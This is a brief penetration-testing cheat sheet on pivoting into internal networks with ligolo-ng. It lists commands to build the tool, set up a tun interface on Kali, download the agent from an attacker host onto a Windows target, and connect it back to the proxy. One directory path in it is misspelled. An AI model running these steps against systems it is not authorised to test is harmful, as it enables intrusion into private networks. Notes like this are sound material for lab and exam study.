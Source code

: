 - https://kentosec.com/2022/01/13/pivoting-through-internal-networks-with-sshuttle-and-ligolo-ng/

Download:

```bash
git clone https://github.com/nicocha30/ligolo-ng.git

cd /tmp/ligon-ng

sudo go build -o agent cmd/agent/main.go
sudo go build -o proxy cmd/proxy/main.go

wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_windows_amd64.zip

unzip ligolo-ng_agent_0.5.2_windows_amd64.zip
```

On Kali:

```bash
sudo ip tuntap add user root mode tun ligolo
sudo ip link set ligolo up
sudo ip route add $SUBNET_TARGET/24 dev ligolo

sudo ./proxy -selfcert
```

On Windows:

```bash
iwr -uri http://$KALI_IP:9999/windows/ligolo-ng/agent.exe -Outfile agent.exe

./agent.exe -connect 192.168.45.242:11601 -ignore-cert
```